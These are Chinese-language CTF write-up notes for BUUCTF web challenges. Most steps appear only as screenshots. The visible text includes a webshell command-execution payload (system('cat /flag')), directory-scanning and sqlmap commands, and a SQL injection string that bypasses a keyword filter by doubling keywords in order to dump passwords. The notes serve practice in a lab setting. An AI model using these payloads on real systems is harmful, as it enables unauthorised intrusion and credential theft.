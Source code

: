 ## 201.[极客大挑战 2019]Knife

![image-20250502231921472](D:\ctf wp\201-240.assets\image-20250502231921472.png)

![image-20250502232841693](D:\ctf wp\201-240.assets\image-20250502232841693.png)

尝试直接用蚁剑![image-20250502234504497](D:\ctf wp\201-240.assets\image-20250502234504497.png)

![image-20250502235323094](D:\ctf wp\201-240.assets\image-20250502235323094.png)

Syc=system('cat /flag');也可以

## 202.[ACTF2020 新生赛]Upload

简单的图片上传

## 203.[ACTF2020 新生赛]BackupFile

Try to find out source file!查找源代码 像是git泄露 扫描一下

```shell
python3 dirsearch.py -e php -u http://43fc8a22-9124-42d2-9d95-e6a089e8c908.node5.buuoj.cn:81 --exclude-status 403,401
```

![image-20250503173112856](D:\ctf wp\201-240.assets\image-20250503173112856.png)

![image-20250503173208745](D:\ctf wp\201-240.assets\image-20250503173208745.png)

构造key=123即可

## 204.[极客大挑战 2019]BabySQL

python sqlmap.py -r C:\Users\lin\Desktop\1.txt -p username --batch --dbs

找到过滤词语![image-20250503180518948](D:\ctf wp\201-240.assets\image-20250503180518948.png)

uunionnion发现可以绕过 则是黑名单去除![image-20250503180700645](D:\ctf wp\201-240.assets\image-20250503180700645.png)![image-20250503180708480](D:\ctf wp\201-240.assets\image-20250503180708480.png)

union select 1,2,3![image-20250503180905857](D:\ctf wp\201-240.assets\image-20250503180905857.png)

![image-20250503180938082](D:\ctf wp\201-240.assets\image-20250503180938082.png)

后面就常规操作

![image-20250503181542979](D:\ctf wp\201-240.assets\image-20250503181542979.png)

最后报字段?username=admin&password=admin' uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql;#



## 205.[极客大挑战 2019]PHP
